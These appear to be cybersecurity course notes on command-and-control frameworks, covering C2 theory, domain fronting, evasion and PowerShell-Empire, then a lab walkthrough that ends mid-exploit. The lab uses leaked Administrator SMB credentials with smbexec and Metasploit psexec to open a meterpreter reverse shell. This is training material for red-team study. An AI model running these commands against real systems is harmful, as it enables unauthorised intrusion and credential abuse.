



# Command and Control (C2/C&C)

## Course Introduction

### Course Topic Overview

- Command and Control Primer
	- Introduction to Command and Control
	- Introduction to C2 Frameworks
- Understanding C2 Frameworks
	- How C2 Frameworks Work
	- C2 Framework Terminology
	- C2 Infrastructure Deployment and Operations
	- The C2 Matrix: Choosing the Correct C2 Framework
- PowerShell-Empire and Starkiller
	- Introduction to PowerShell-Empire
	- Introduction to Starkiller
	- Red Team Operations with PowerShell-Empire
	- Red Team Operations with Starkiller
- Custom C2 Protocol
	- Custom C2 Protocol (with Merlin)
- C2 Frameworks: Armitage
	- Introduction to Armitage
	- Port Scanning and Enumeration with Armitage
	- Exploitation and Post Exploitation with Armitage

### Prerequisites

- Knowledge and experience in penetration testing
- Familiarity with Windows and Linux
- Basic familiarity with the Metasploit Framework

### Learning Objectives

- You will have an understanding of what Command and Control is with regards to Red Team/Offensive operations.
- You will have an understanding of what C2 Frameworks are, how they work, what functionality they offer, and the role they play in red team operations.
- You will have an understanding of the various communication models and protocols used in designing, deploying, and operating C2 infrastructure.
- You will be able to identify the correct C2 Framework to use based on the nature of engagement you are performing in addition to the features you require for a successful operation.
- You will have the ability to install, configure, and effectively use PowerShell-Empire and Starkiller for Red Team operations in Windows environments.
- You will have the knowledge and experience in using some of the most popular C2 Frameworks available.

---
---

## Command and Control Primer

### Introduction to Command and Control - Theory

#### Command and Control

Command and Control (C2 or C&C) refers to the communication structure used by attackers to remotely control and coordinate activities across compromised systems.

It encompasses the methods, protocols, and infrastructure that enable attackers to send commands, receive data, and manage their operations in a coordinated manner.

C2 typically consists of a central C2 server and client software (agents) installed on compromised endpoints.

In red teaming, Command and Control (C2) plays a central role in simulating sophisticated cyberattacks.

C2 frameworks allow red teams to orchestrate, control, and coordinate multi-stage offensive operations, providing them with the tools to mimic real-world threat actors.

#### Role of C2 in Red Teaming

**Centralized Coordination**

C2 frameworks provide a centralized point from which red teams can manage multiple compromised systems. This coordination is essential for controlling the flow of operations, issuing commands, and maintaining communication across distributed networks.

**Persistence and Remote Access**

C2 allows red teams to establish and maintain persistence on compromised systems. It enables remote access, allowing red teams to interact with target systems, execute commands, and carry out post-exploitation activities.

**Lateral Movement**

C2 frameworks facilitate lateral movement across a network. Red teams use C2 to compromise additional systems, navigate through network segments, and escalate privileges as they would in a real-world attack scenario.

**Complex Attack Scenarios**

C2 frameworks empower red teams to execute complex attack scenarios that span multiple stages. This includes tasks like data exfiltration, privilege escalation, and evasion techniques. By using C2, red teams can create realistic attack simulations.

**Testing Blue Team Detection and Response**

C2 frameworks are instrumental in testing an organization's defensive capabilities. Red teams can use C2 to challenge the blue team (defensive team) with realistic attacks, allowing them to evaluate detection and response effectiveness.

#### Importance of C2 in Red Teaming

**Realistic Simulation**

C2 frameworks enable red teams to simulate advanced attack techniques that closely resemble those used by real-world threat actors. This realism is crucial for identifying gaps in an organization's security posture.

**Comprehensive Security Assessment**

By leveraging C2, red teams can conduct a thorough assessment of an organization's defenses. This includes testing network segmentation, endpoint security, data loss prevention (DLP), and intrusion detection systems (IDS).

**Identifying Weak Points**

C2 frameworks allow red teams to explore a variety of tactics, techniques, and procedures (TTPs). This helps identify weak points in an organization's security infrastructure, providing valuable feedback for strengthening defenses.

**Improving Incident Response**

Through red teaming exercises involving C2, organizations can test their incident response capabilities. This helps blue teams practice and refine their response processes, leading to faster and more effective reactions to actual threats.

#### Components of C2

1. **C2 Server**
A central point where attackers issue commands and process data sent by the compromised systems. It can be hosted on various platforms, like on-premises servers, cloud services, or hidden services.

2. **C2 Agent**
Software running on the compromised systems that connects to the C2 server. It facilitates remote control and data transmission.

3. **Communication Channel**
The protocol and method through which the C2 server communicates with agents. This can include HTTP(S), DNS, WebSockets, custom encrypted protocols, etc.

### Introduction to C2 Frameworks - Theory

#### C2 Frameworks

A Command and Control (C2 or C&C) framework is a software platform designed for managing, controlling, and orchestrating the activities of remote systems or devices in an offensive security context. In cybersecurity,

C2 frameworks are primarily used by attackers to maintain remote access to compromised systems, issue commands, and coordinate malicious activities. In ethical scenarios like penetration testing and red teaming, these frameworks enable security professionals to simulate advanced attack scenarios to assess an organization's security posture.

#### C2 Framework Functionality

**Establishing Communication Channels**

C2 frameworks establish communication channels between the C2 server and compromised systems (agents/clients). These channels can use various protocols, such as HTTP, HTTPS, DNS, WebSockets, or custom protocols, often employing encryption and obfuscation to avoid detection.

**Remote Control and Command Execution**

The primary function of a C2 framework is to enable remote control of compromised systems. It allows operators to execute commands on remote endpoints, access files, run scripts, and perform a variety of actions, mimicking the behavior of attackers.

**Persistence Mechanisms**

C2 frameworks offer features for maintaining persistence on compromised systems. This includes methods for ensuring that C2 agents persist through system reboots or other disruptions. Common persistence techniques involve modifying startup settings, creating scheduled tasks, or installing backdoors.

**Lateral Movement**

A key capability of C2 frameworks is facilitating lateral movement across networks. They provide tools for compromising additional systems, exploiting network vulnerabilities, and navigating through different network segments.

**Privilege Escalation**

C2 frameworks often include modules or techniques for escalating privileges on compromised systems. This allows operators to gain higher-level access, enabling deeper control and broader impact on the target environment.

**Data Exfiltration**

C2 frameworks can be used to collect and exfiltrate data from compromised systems. This is often achieved through specific commands or scripts that retrieve sensitive information and send it back to the C2 server.

**Automation and Scripting**

Many C2 frameworks support automation and scripting, allowing operators to create custom scripts and automate repetitive tasks. This capability is useful for streamlining complex operations and conducting coordinated attacks.

**Evasion Techniques**

C2 frameworks offer evasion techniques to help operators avoid detection by security tools like firewalls, intrusion detection systems (IDS), and endpoint security solutions. This might involve obfuscating network traffic, using common ports, or employing domain fronting.

**Payload Development**

C2 frameworks often allow for custom payload development, giving operators flexibility to create unique payloads or modify existing ones. This enables red teamers to adapt their approach to specific scenarios or environments.

**Logging and Reporting**

Many C2 frameworks provide logging and reporting capabilities, allowing operators to track commands, collect data on operations, and generate reports for analysis. This is useful for reviewing attack scenarios and sharing insights with stakeholders.

---

## Understanding C2 Frameworks

### How C2 Frameworks Work - Theory

#### How C2 Frameworks Work

Command and Control (C2) frameworks are designed to establish and maintain communication between a central command point (the C2 server) and distributed endpoints (the C2 agents or clients).

This communication allows for issuing commands, transmitting data, and orchestrating various offensive activities. Here's an explanation of how C2 frameworks work, focusing on communication channels, protocols, and common communication models.

#### C2 Communication Channels

Communication channels in a C2 framework enable data transmission between the C2 server and agents. These channels are crucial for remote control, task execution, and data exfiltration.

C2 frameworks can use various communication channels, including:

- **Network-based Channels**: Utilize network protocols like HTTP, HTTPS, DNS, FTP, WebSockets, or custom protocols to communicate between the server and agents.
- **Non-Network Channels**: In rare cases, communication may occur via non-network methods like removable storage devices, though this is less common in penetration testing contexts.

#### C2 Communication Protocols

Common Protocols: C2 frameworks frequently use standard network protocols to blend into regular network traffic. Commonly used protocols include:

- **HTTP/HTTPS**: These are widely used because they are less likely to raise suspicion due to their ubiquity in web traffic. HTTPS adds encryption, providing a layer of security against interception.
- **DNS**: This protocol is sometimes used for C2 communication due to its pervasiveness in networks, allowing data to be embedded in DNS queries or responses.
- **Custom Protocols**: Some C2 frameworks use custom-designed protocols for enhanced flexibility or obfuscation.

#### C2 Communication Models

C2 frameworks can follow different communication models to facilitate their operations.

Here are some common models:
- **Centralized Model**
- **P2P**
- **Out of Band/Overt**
- **Hybrid**

##### Centralized C2 Model

This model utilizes the traditional client-server communication model, where the compromised host (client/agent) will call back to a centralized C2 server awaiting further instructions.

In this model the C2 infrastructure is typically centralized in that the compromised host only communicates with a single master C2 server.

It is important to note, however, that a centralized C2 model will typically also include the use of redirectors, proxies and load balancers to mask the IP addresses of key pieces of the infrastructure.

Most well designed centralized C2 infrastructure will also have inbuilt kill switches designed to terminate connectivity to compromised hosts and wipe all data tied to the operation as a defense against security researchers or law enforcement.

An increasingly popular trend with centralized C2 infrastructure is the use of advanced multi-channel stagers/payloads that are designed to establish communication with more than one C2 server simultaneously.

This increases the complexity of the adversaries C2 infrastructure and makes it much more complex and time consuming to identify the primary C2 server being used to communicate with compromised hosts.



##### P2P C2 Model

In a Peer-to-Peer (P2P) C2 model, communication from the C2 server is delivered through a web of botnet members that relay the commands/instructions between them.

In this model, no single member of the botnet network is the master C2 server making it difficult to identify where the commands/instructions originated from.

A P2P C2 model typically utilizes a single compromised host to maintain communication with the C2 server, whereby, all other compromised hosts communicate over a botnet network and transmit information through the single egress host.



##### Overt/Out of Band C2 Model

This C2 model leverages already existing communication protocols and social media platforms, IRC email and many more to facilitate their C2 infrastructure.

The primary motivation for using this model is to take advantage of already existing platforms like Twitter or Gmail as a means of communicating with compromised hosts (implants) with the aim of evading detection.

This C2 model can be very difficult to detect as egress traffic is in the form of communication with services like Twitter or Gmail (often marked as non-suspicious).

### C2 Framework Terminology - Theory

| Term              | Definition                                                                                                                               |
|-------------------|------------------------------------------------------------------------------------------------------------------------------------------|
| C2 Server         | This is the hub/server that agents call back to.                                                                                         |
| Listener          | Listener process that runs on the C2 server or redirector. Listens for call backs from compromised hosts over a specific port or protocol and maintains communication between the two. |
| Agent             | An agent is a piece of code or the mechanism that is generated by a C2 framework and calls back to a listener on a C2 Server.            |
| Implant           | Mechanism that provides interactive remote access to a target system.                                                                    |
| Beacon/Beaconing  | This refers to when a compromised host with an active implant/agent calls-back to the C2 server for instructions.                        |
| Interface         | Control mechanism providing operators with interactive access to the C2 server. (Empire Client)                                          |
| Payload           | Piece of code executed on target system in order to achieve a specific goal like establishing a reverse shell.                           |
| Stager            | A stager is a small executable that is an initial payload. It is a relatively small piece of code that is executed to prepare for a much larger and more capable payload known as the stage payload. |
| Sleep Timer       | Sleep Timers are used to modify the rate at which an agent sends beacons to a C2 server. (Sleep timer of 10 seconds means that the agent will send a beacon out every 10 seconds) |
| Jitter            | Jitter allows you to add some variability to the sleep timer in order to make the communication/traffic look less sequential. Some C2 Frameworks provide the ability to modify packets. |

### C2 Infrastructure Deployment and Operations - Theory

#### C2 Infrastructure Deployment

When designing and deploying a C2 infrastructure, it is very important to consider the following factors:

- **Payload delivery** – Method of delivering initial access payload (Email, phishing web delivery etc.).
- **Client-based protections** – What sort of protection mechanisms are installed on target systems (AV, EDR, HIDS etc.).
- **Network-based protections** – Network protection mechanisms present on target network (Egress filtering, IDS/IPS).

##### Payload Delivery

The first step in any operation will involve obtaining initial access to a target system. This may be achieved through the use of various initial access TTPs like:

- Exploiting Public Facing Applications
- Supply Chain Compromise
- Phishing
- Valid Accounts

Realistically speaking, initial access is rarely achieved via a C2 Framework stager. C2 frameworks come into the mix during post-exploitation, as a result, you must decide on the means of delivering the C2 Framework payload/stager.

The types of stagers/payloads you can utilize will be limited to the C2 Framework you are using in addition to the type of operating system running on the target system.

As a result, you must choose the correct C2 framework that aligns with the aforementioned factors.

For example, it would be unwise to use a C2 Framework that utilizes Python based implants with no compilation in order to establish C2 connectivity on Windows operating systems.

##### Client-Based Protections

Most C2 Framework stagers/payloads will be easily detected by a modern AV. As a result, you must also factor in evasion of client-based protection mechanisms like AVs, EDRs etc.

The following techniques are typically used to ensure that the C2 Framework stager/payload evade signature-based AV solutions:

- PE Encoding and Obfuscation
- Shellcode Injection
- PS Encoding and Obfuscation
- PowerSploit – Shellcode injection in memory

##### Network-Based Protections

Another factor to consider when designing your C2 infrastructure is the network-based protections in place on the target network.

The following factors should be considered:

- Egress firewall rules and filtering
- IDS/IPS detection
- Inline payload detection

When designing communication channels, you must always factor in what egress traffic will look like from the target network perspective.

The following best-practices should be observed when deploying your C2 infrastructure:

Ensure communication channel is over a standard port (80,8080,443).
Note: Communication over standard ports will be heavily monitored, as a result, it is recommended to utilize domains over raw IP addresses.
Non-standard ports like TCP 53 can be used to mask communication as legitimate DNS requests.

##### Domain Fronting

Domain Fronting is a technique utilized by adversaries in order to conceal the true destination of network traffic.

In the case of C2 Frameworks, Domain Fronting is used to conceal the true destination of an HTTP(S) request.

This is achieved by using a different domain name in the initial connection request rather than the actual target domain.

This technique is further embellished through the use of encryption protocols like TLS or HTTPS in order to encrypt/obfuscate the traffic.

Domain Fronting is a technique that allows an adversary to hide the actual destination of network traffic. In practice, it seems that the traffic is going to a legitimate and trusted domain, but it is actually redirected to a command and control (C2) server controlled by the adversary.

**Domain Fronting Weaponized**

A common service/tool that is leveraged by adversaries to facilitate Domain Fronting is Cloudflare.

Cloudflare is a service that offers various tools to improve the security and performance of websites.

Adversaries can leverage Cloudflare to make it look like an agent is communicating with a trusted IP address (IP Block owned by Cloudflare).

Adversaries/Red Teamers will typically utilize the following methodology when setting up Domain Fronting with Cloudflare:

0. Adversary/Operator purchases a domain and configures it to utilize Cloudflare nameservers, consequently proxying all requests through Cloudflare.
1. The implant/payload is configured to beacon back to the C2 server domain.
2. Cloudflare receives and proxies the beacon from the agent, analyzes the host header and relays the request/response to the C2 server domain.
3. The C2 server receives the request from Cloudflare and sends a response with commands, which is also proxied through Cloudflare.
4. The response containing commands is then received by the agent via Cloudflare.



**Why does it work?**

By using Cloudflare as an intermediary, the adversary masks the true destination of the traffic. Since Cloudflare is a widely used and trusted service, the traffic appears legitimate and less suspicious. This makes it more difficult for defenders to identify and block communications between the infected device and the C2 server.

Domain Fronting with Cloudflare is an advanced technique that exploits the reputation and infrastructure of a legitimate service to hide malicious communications. Adversaries configure their domain through Cloudflare, allowing the traffic to appear as if it is going to a trusted domain, while in reality, it is directed to a server they control.

### The C2 Matrix: Choosing the Correct C2 Framework - Theory

#### Choosing The Correct C2 Framework

When deploying C2 infrastructure, one question dominates the discussion. What C2 Framework should I use?
Over the last decade, not much was known about C2 frameworks, how they work and what differentiates them.
Another issue that has plagued Red Teamers has been the sheer number of frameworks available in the wild.

This is where the C2 Matrix comes into play.

#### The C2 Matrix

The C2 Matrix was created to aggregate all the Command-and-Control frameworks publicly available (open-source and commercial) in a single resource to assist teams in testing their own controls through adversary emulations (Red Team or Purple Team Exercises).

This allows more efficient decision making when called upon to emulate and adversary TTPs.

It is the golden age of Command and Control (C2) frameworks. Learn how these C2 frameworks work and start testing against your organization to improve detective and preventive controls.

The C2 Matrix currently has 35 command and control frameworks documented in a Google Sheet, web site, and questionnaire format.

**References**
- [Google Sheet (Golden Source)](https://docs.google.com/spreadsheets/d/1b4mUxa6cDQuTV2BPC6aA-GR4zGZi0ooPYtBe4lqPsSc/edit#gid=0)
- [Website](https://c2matrix.webflow.io/matrix)

##### The C2 Matrix - How to Use It

You can use the C2 Matrix to find the most suitable framework for your needs by applying various filters and criteria.

1. **Access the Matrix**: Go to the Google Sheet or the website.
2. **Apply Filters**: Use the available filters to narrow down your choices based on specific criteria such as:
    - **Open-source vs Commercial**: Select whether you prefer an open-source framework or a commercial one.
    - **Platform**: Choose frameworks that are compatible with your operating system (Windows, Linux, macOS).
    - **Programming Language**: Filter by the programming language the framework is written in or supports.
    - **Features**: Select frameworks based on specific features you need, such as encrypted communication, stealth capabilities, plugin support, etc.
    - **Maturity and Support**: Look for frameworks that have active development and community support.
3. **Compare Frameworks**: Once you've applied the filters, compare the shortlisted frameworks based on their detailed descriptions, capabilities, and user reviews available in the matrix.

By using these filters and comparing the options, you can efficiently identify the C2 framework that best meets your specific requirements.

---

## C2 Frameworks: PowerShell-Empire and Starkiller

### Introduction to PowerShell-Empire - Theory

#### PowerShell-Empire

Empire 4 is a pure PowerShell C2/post-exploitation framework built on cryptological-secure communications and flexible architecture.

Empire implements the ability to run PowerShell agents without needing powershell.exe, provides you with rapidly deployable post-exploitation modules ranging from keyloggers to Mimikatz, and adaptable communications to evade network detection, all wrapped up in a usability-focused framework.

Empire 4 includes a pure-PowerShell Windows agent, Python 3.x Linux/OS X agents, and C# agents. It is the merger of the previous PowerShell-Empire and Python EmPyre projects.

PowerShell-Empire was recently updated and is now officially supported and maintained by Kali Linux, more information regarding the update can be found here:
[https://www.kali.org/blog/empire-starkiller](https://www.kali.org/blog/empire-starkiller/)

In order to get an understanding of how Empire works and the components that make up the framework, It is recommended to go through the official wiki which can be found here:
[https://bc-security.gitbook.io/empire-wiki](https://bc-security.gitbook.io/empire-wiki/)

Windows agents are purely implemented in PowerShell (without powershell.exe!), and Linux/macOS is done in Python 3.

Feature rich with various options to bypass various protections (and allows for easy modification for custom evasion), Empire is often a favorite for Command and Control (C2) activity.

Official GitHub Repo: [https://github.com/BC-SECURITY/Empire](https://github.com/BC-SECURITY/Empire)

#### PowerShell-Empire Features

- Server/Client Architecture for Multiplayer Support
- Supports GUI and CLI Clients
- Fully encrypted communications
- HTTP/S, Malleable HTTP, OneDrive, Dropbox, and PHP Listeners
- Massive library (400+) of supported tools in PowerShell, C#, Python
- Donut Integration for shellcode generation
- Modular plugin interface for custom server features
- Flexible module interface for adding new tools
- Integrated obfuscation using ConfuserEx 2 and Invoke-Obfuscation
- In-memory .NET assembly execution
- Customizable Bypasses
- JA3/S and JARM Evasion
- MITRE ATT&CK Integration
- Integrated Roslyn compiler (Thanks to Covenant)
- Docker, Kali, Ubuntu, and Debian Install Support

#### PowerShell-Empire Agents and Modules

**Modules**
- Assembly Execution
- BOF Execution
- Mimikatz
- Seatbelt
- Rubeus
- SharpSploit
- Certify
- ProcessInjection

**Agents**
- PowerShell
- Python 3
- C#
- IronPython 3

#### PowerShell-Empire Architecture

Empire 4 introduces a new server and client architecture which requires running each in separate terminals.
The PowerShell-Empire server is used to manage server related functionality.
The PowerShell-Empire client is used to interact with the Empire server.
The two primary interfaces for interaction with Empire are:
  - PowerShell-Empire Client (CLI)
  - Starkiller (GUI)

#### PowerShell-Empire Terminology

| TERM    | DEFINITION                                                                         |
|---------|------------------------------------------------------------------------------------|
| Listener| Local process listening for a connection/beacon from a compromised host            |
| Stager  | Piece of code or script used to establish an initial foothold on a target system   |
| Agent   | Process running on the compromised host responsible for connecting to the listener |
| Module  | Piece of code executed via the Agent to achieve a specific goal                    |

#### PowerShell-Empire Listeners

| LISTENER   | FUNCTIONALITY                                                                            |
|------------|------------------------------------------------------------------------------------------|
| dbx        | Dropbox listener (Requires token in order to interact with the Dropbox API)              |
| http       | Standard HTTP/HTTPS listener                                                             |
| http_com   | HTTP/HTTPS listener that uses a hidden IE COM object                                     |
| http_foreign| HTTP/HTTPS listener used to inject Empire payloads                                      |
| http_hop   | HTTP/HTTPS listener that redirects commands to another listener to conceal the initial IP address |
| http_mapi  | HTTP/HTTPS listener that uses the Liniaal utility allowing you to gain control over the target host through an Exchange server |

#### PowerShell-Empire Stagers

| LISTENER  | FUNCTIONALITY                                                                 |
|-----------|-------------------------------------------------------------------------------|
| bash      | Standard bash script                                                          |
| launcher  | One-liner written in a specific scripting language (vbs, bat etc.)            |
| macro     | Macro for the Office Suite                                                    |
| jar       | JAR payload                                                                   |
| shellcode | Windows shellcode                                                             |
| Csharp_exe| PowerShell C# PE                                                              |
| dll       | DLL Stager                                                                    |
| hta       | HTA stager for IE/mshta.exe                                                   |

### Introduction to Starkiller - Theory

#### Starkiller

BC Security, the company responsible for maintaining PowerShell-Empire also developed a GUI interface companion for Empire called Starkiller.

Starkiller is a Frontend for Powershell-Empire. It is an Electron application written in VueJS and provides users with an intuitive way of interacting with Empire.

#### Starkiller Features

- Interactive agent shell.
- Malleable profile management.
- Ability to enable/disable modules.
- Process browser.
- File browser.
- Chat widget for collaborative ops.

#### BC Security's Empire/Starkiller and Kali Linux

We have always worked to support the information security community as a whole, and over the years experimented with different ideas (some with a greater success than others). One of the key components to Kali is the tools included (either pre-installed or installed via apt). Joining together infosec professional/hobbyist and tool authors, today we are announcing another partnership: **Kali has partnered with BC Security.**

BC Security is the team who is currently maintaining the most active fork of Empire. In August 2019, the original maintainers archived the project, but with Open-source projects (as long as they don’t break software licenses) other groups can take someone else's code and improve upon it. This is exactly what BC Security did, forking the project, to keep the flame of PowerShell-Empire alive.

### Red Team Operations with PowerShell-Empire - Lab

#### Lab Environment

**Scenario**
You have been tasked by an organization to conduct a penetration test. Suppose that the organization's internet-facing machine is accessible at `demo.ine.local`. There is another machine (`fileserver.ine.local`) which is not directly accessible.

**Objective**
Perform remote exploitation and post-exploitation tasks on vulnerable systems, gain access to both machines and retrieve the flag!

**Learning Objectives**
- Identify vulnerabilities from a remote exploitation perspective.  
- Exploit discovered vulnerabilities.
- Obtain access to machines (that are not directly accessible).
- Use PowerShell and related tools for tasks where applicable.

**Recommended tools**
- Empire
- Smbexec
- Nmap
- Metasploit

**Tasks**
 1. Identify a vulnerability in an internet-facing system. Use that vulnerability to obtain access and execute remote commands.
2. Use Empire to obtain a connection from the target via an Empire agent.
3. Exploit a second system that is not directly accessible.

#### Lab Solution

<span style="color: #e57373;">**Attacker machine**</span>.

_Checking the network configuration of the attacker's machine._

`ifconfig`:
```
eth0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.1.0.6  netmask 255.255.0.0  broadcast 10.1.255.255
        ether 02:42:0a:01:00:06  txqueuelen 0  (Ethernet)
        RX packets 4083  bytes 321428 (313.8 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 4113  bytes 2340067 (2.2 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

eth1: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.10.23.3  netmask 255.255.255.0  broadcast 10.10.23.255 ←
        ether 02:42:0a:0a:17:03  txqueuelen 0  (Ethernet)
        RX packets 12  bytes 936 (936.0 B)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 0  bytes 0 (0.0 B)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        loop  txqueuelen 1000  (Local Loopback)
        RX packets 13861  bytes 33640297 (32.0 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 13861  bytes 33640297 (32.0 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0
```

_Verifying the hosts file for important entries, particularly the target machines._

`cat /etc/hosts`:
```
127.0.0.1       localhost
::1     localhost ip6-localhost ip6-loopback
fe00::0 ip6-localnet
ff00::0 ip6-mcastprefix
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
10.1.0.6        attackdefense.com attackdefense
127.0.0.1 AttackDefense-Kali
10.10.23.3      attackdefense.com attackdefense
10.4.17.60    demo.ine.local ←
10.4.21.77    fileServer.ine.local ←
```

_Ensuring the target `demo.ine.local` is reachable._

`ping -c 3 demo.ine.local`:
```
PING demo.ine.local (10.4.17.60) 56(84) bytes of data. ←
64 bytes from demo.ine.local (10.4.17.60): icmp_seq=1 ttl=125 time=11.5 ms
64 bytes from demo.ine.local (10.4.17.60): icmp_seq=2 ttl=125 time=10.5 ms
64 bytes from demo.ine.local (10.4.17.60): icmp_seq=3 ttl=125 time=10.2 ms

--- demo.ine.local ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2003ms ←
rtt min/avg/max/mdev = 10.229/10.749/11.487/0.535 ms
```

_Checking connectivity to `fileserver.ine.local` and noting the 100% packet loss._

`ping -c 3 fileserver.ine.local`:
```
PING fileServer.ine.local (10.4.21.77) 56(84) bytes of data. ←

--- fileServer.ine.local ping statistics ---
3 packets transmitted, 0 received, 100% packet loss, time 2030ms ←
```

_Performing a full port scan and service version detection on `demo.ine.local`._

`nmap -Pn -sS -sV -p- demo.ine.local`:
```
Starting Nmap 7.92 ( https://nmap.org ) at 2024-08-06 20:14 IST
Nmap scan report for demo.ine.local (10.4.17.60)
Host is up (0.011s latency).
Not shown: 65521 closed tcp ports (reset)
PORT      STATE SERVICE            VERSION
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds       Microsoft Windows Server 2008 R2 - 2012 microsoft-ds
3389/tcp  open  ssl/ms-wbt-server?
4983/tcp  open  http               Apache httpd 2.4.52 ((Win64)) ←
5985/tcp  open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
47001/tcp open  http               Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
49152/tcp open  msrpc              Microsoft Windows RPC
49153/tcp open  msrpc              Microsoft Windows RPC
49154/tcp open  msrpc              Microsoft Windows RPC
49155/tcp open  msrpc              Microsoft Windows RPC
49173/tcp open  msrpc              Microsoft Windows RPC
49174/tcp open  msrpc              Microsoft Windows RPC
49180/tcp open  msrpc              Microsoft Windows RPC
Service Info: OSs: Windows, Windows Server 2008 R2 - 2012; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 89.09 seconds
```

_Exploring a discovered HTTP service which reveals a batch script indicating potential SMB credentials._

`firefox http://demo.ine.local:4983/ &`:
```
@echo off net use "\\fileserver\C$" /user:Administrator abc_123321!@# if exist "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ( echo "Copying errors\..." copy "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" C:\Users\local_admin\Logs\Host1\ del "\\fileserver\C$\Program_Files\MSBuild\ErrorLog.txt" ) else ( echo "No errors!" ) net use "\\fileserver\C$" /delete ←
```

_Using smbexec to gain a shell on the `demo.ine.local` machine._

`smbexec.py 'Administrator:abc_123321!@#'@demo.ine.local`:
```
Impacket v0.9.25.dev1+20220131.200424.badf09d - Copyright 2021 SecureAuth Corporation

[!] Launching semi-interactive shell - Careful what you execute ←
```

_Using Metasploit's `psexec` module (as an alternative approach) to obtain a Meterpreter session on `demo.ine.local`._

`msfconsole -q`

`search smb psexec`, `use windows/smb/psexec`, `set PAYLOAD windows/meterpreter/reverse_tcp`, `show options`, `set RHOSTS demo.ine.local`, `set SMBUser Administrator`, `set SMBPass abc_123321!@#`, `exploit`:
```
[*] Started reverse TCP handler on 10.10.23.3:4444 
[*] 10.4.17.60:445 - Connecting to the server...
